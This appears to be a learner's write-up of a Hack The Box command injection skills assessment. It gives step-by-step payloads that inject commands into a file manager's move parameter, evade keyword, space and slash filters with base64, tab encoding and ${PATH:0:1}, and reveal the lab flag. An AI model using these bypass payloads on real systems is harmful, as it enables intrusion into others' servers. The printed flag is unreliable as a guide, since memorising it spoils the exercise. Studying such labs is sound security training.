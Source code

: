 ```yaml
---
sticker: emoji//1f4bb
---
```

You are contracted to perform a penetration test for a company, and through your pentest, you stumble upon an interesting file manager web application. As file managers tend to execute system commands, you are interested in testing for command injection vulnerabilities.

Use the various techniques presented in this module to detect a command injection vulnerability and then exploit it, evading any filters in place.


![](Pasted%20image%2020250205145850.png)

## Reconnaissance
---

Once we've authenticated, we can see the following:

![](Pasted%20image%2020250205145916.png)

We got a lot of functions in this page, being:

```ad-summary
1. Direct Link
2. Preview
3. Copy to
4. Download
```

After checking each of them, I found the following in the `Copy to` function:

![](Pasted%20image%2020250205150700.png)

We have a `Copy` and `Move` function in this page, they go by the following parameters:

Copy:
```
/index.php?to=&from=51459716.txt&finish=1
```

Move:

```
/index.php?to=&from=51459716.txt&finish=1&move=1 
```

In the move URL, if we modify the to value to empty, we can see the following:

![](Pasted%20image%2020250205153325.png)

Which means, it could be vulnerable to command injection, let's try sending a simple payload like:

```
/index.php?to=&from=51459716.txt;uname&finish=1&move=1
```

We will see the following:

![](Pasted%20image%2020250205153433.png)

This is indeed vulnerable to command injection, let's craft our payload to read the flag.

## Exploitation
---

Commands like `cat`, `mv` and `ls` are blocked, we need to bypass them using what we've learned in this module, let's do the following payload:

```
%7C%7Cbash<<<$(base64%09-d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK)
```

```ad-important
#### Breakdown
---
### **1. URL Decoding First**

- `%7C%7C` → `||` (double pipe operator in Linux).
    
- `%09` → Tab character (used to replace spaces).
    

Decoded payload:


`||bash<<<$(base64 -d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK)`


---

### **2. Command Structure**

- **`||`**: Execute the second command **regardless** of whether the first command (`mv`, in the original app) succeeds or fails.
    
- **`bash<<<`**: Pass the following string as input to `bash` for execution.
    

---

### **3. Decoding the Base64 String**

The inner command is:

`$(base64 -d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK)`

- **`base64 -d`**: Decodes a Base64-encoded string.
    
- **`<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK`**: Passes the Base64 string to `base64 -d`.
    

**Decoding the Base64**:


`echo "Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK" | base64 -d`

**Result**:

`cat ${PATH:0:1}flag.txt`

---

### **4. Breaking Down the Final Command**

The decoded command is:

`cat ${PATH:0:1}flag.txt`

- **`${PATH:0:1}`**: Extracts the first character of the `PATH` environment variable (which is `/`).
    
    - Example: If `PATH=/usr/local/bin:/usr/bin`, `${PATH:0:1}` → `/`.
        
- **Result**: `cat /flag.txt`.
    

---

### **5. Why Use These Techniques?**

- **`||`**: Bypasses command injection filters by executing regardless of the first command's success.
    
- **`base64`**: Obfuscates the command to bypass keyword filters (e.g., `cat`, `/`).
    
- **`${PATH:0:1}`**: Avoids using `/` directly (common blacklisted character).
    
- **`%09` (tab)**: Replaces spaces to bypass space filters.
    

---

### **Full Payload Flow**

1. The app runs `mv [file] [to]`.
    
2. The payload injects `||bash<<<$(base64 -d<<<...)`.
    
3. The Base64 string decodes to `cat /flag.txt`.
    
4. `bash` executes the decoded command, printing the flag.
```

If we needed to look around for the flag, we'd need to use more payloads, since this is not needed, we can simply use this one.

So, let's send it like this:

```
http://94.237.54.42:31196/index.php?to=%7C%7Cbash<<<$(base64%09-d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK)&from=51459716.txt&finish=1&move=1
```

We will see the following output:

![](Pasted%20image%2020250205153914.png)

Flag is `HTB{c0mm4nd3r_1nj3c70r}`

![](Pasted%20image%2020250205154011.png)

